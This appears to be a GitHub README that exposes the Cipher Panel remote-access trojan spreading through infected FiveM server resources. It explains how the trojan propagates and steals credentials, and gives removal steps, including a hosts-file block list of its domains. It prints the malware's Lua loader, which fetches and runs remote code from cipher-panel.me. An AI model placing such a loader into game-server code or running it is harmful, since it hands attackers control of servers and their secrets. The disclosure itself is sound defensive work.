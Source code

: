 <p align="center">
<h1><a href="https://discord.gg/kJdBQQcesA">ProjectEndCipher Discord Server</a></h1>
</p>

# Cipher Panel
Cipher is a paid Remote Execution/Administration Tool (RAT). Cipher's customers generate 4 lines of Lua code to inject into resources (many of them obfuscate the code) which will download remote code from the Cipher servers. We've found many leaked resources are infected with Cipher-Panel. This repository will talk more about how Cipher works.



# How Cipher Works
Cipher works by releasing infected code/resources to the FiveM public. Server owners/developers take the code (that they don't know is infected) and install it on their servers. Once the resource is installed and ran it will inject its code into other previously clean resources.

The initial infected code boils down to the following:

```Lua
PerformHttpRequest('https://Cipher-panel.me/_i/i?to=UNIQUECODE', function (e, d)
	local s = assert(load(d))
	if (d == nil) then return end 
	s() 
end)
```

The Unique Code in the URL request is the Cipher user that now has control of your server. Once this code is run it downloads the remote code (from Cipher) and runs it on line 4 as a function.

This is the basis on how most of Cipher works. It proceeds to download several more requests (found in the code returned by Cipher) and will continue until it injects more pre-existing resources.

After the code is run, it will upload some javascript and override existing files within the system builders directory. 

`resources\[system]\[builders]` 

The code will start propagating itself within all of your resources and files within the FiveM server installation to make it difficult to remove.

At this stage, its armageddon and all files within the server are compromised meaning files can be downloaded, uploaded, edited and viewed, including but not limited to just the server.cfg, sql credentials or even steal your cfx license keys. They’re also able to run remote code on the server which leads to the last step.

Cipher is a rat that has the capability of gaining full system administrator access to take over the host machine it's run on. It does this by using powershell to download a rat executable and also add / alter users to provide remote desktop access to your server. This back door approach also supports linux too. 

Cipher customers have been seen attempting to extort servers for money paid in crypto currency in exchange to deter the user of Cipher from deleting the server entirely. 

Read Infection Documentation for more information on what it expands into.



# How To Remove Cipher

If you have been infected with Cipher, this is what you must do:

Disconnect from the internet your server and access it via KVM (if possible).

Blacklist their domains on your firewall. This will slow them down however we have seen instances where they will use proxies to evade this but on most leaks this will help.

Edit the hosts file `C://windows/system32/drivers/etc/hosts` and add.

```
127.0.0.1 cipher-panel.me 
127.0.0.1 ciphercheats.com
127.0.0.1 keyx.club
127.0.0.1 dark-utilities.xyz
```

Install an antivirus software on the host machine to scan for any backdoors / RATs. 

Check the system admins on the machine to verify that no unauthorized accounts exist.

Change any passwords you have on the host machine to ensure that they don’t have access.

While your FiveM server is turned off, use the provided Python script to install a nullifier which will help prevent future infections of Cipher and tell you what files are infected. 
 
You can also install this code manually however we expect Cipher will attempt to patch this.

scheduler.lua


**Make sure you do not run your FiveM server as ROOT (Linux) or Administrator (Windows)**



# Other things you can do to prevent being attacked by Cipher

Consider adding the [Warden](https://discord.com/invite/jeFeDRasfs) to your discord server. Warden is a great resource that can help remove cheaters and leakers (people who participate in sharing leaked paid resources) from your community or support hack products like Cipher. 

Make sure to install the latest updates of whatever framework you are using for 

[ESX](https://github.com/esx-framework/esx-legacy) | [ESX Discord](https://discord.esx-framework.org)

[QBCore](https://github.com/qbcore-framework/qb-core) | [QBCore Discord](https://discord.gg/qbcore) 

Consider investing in a good anticheat for your server like [Phoenix Anticheat](https://discord.com/invite/pac) or [FiveEye](https://dsc.gg/FiveEye) or any other anti-cheat that you feel comfortable using. (Currently we are working with multiple anticheat providers to patch Cipher. The progress made will be shown here.) 

Buy resources from only reputable places that you feel comfortable purchasing from either Tebex listed stores or from places like [Modit](https://modit.store/), if you're unsure about a store, perhaps ask for guidance on the warden discord. 

Be extremely sketchy on code you get that is encrypted or downloaded from shady sources.

Lastly, the most important thing… DON'T USE LEAKED RESOURCES!


## Cipher Customers

If you are a customer of Cipher, we suggest canceling your subscriptions and getting a refund.

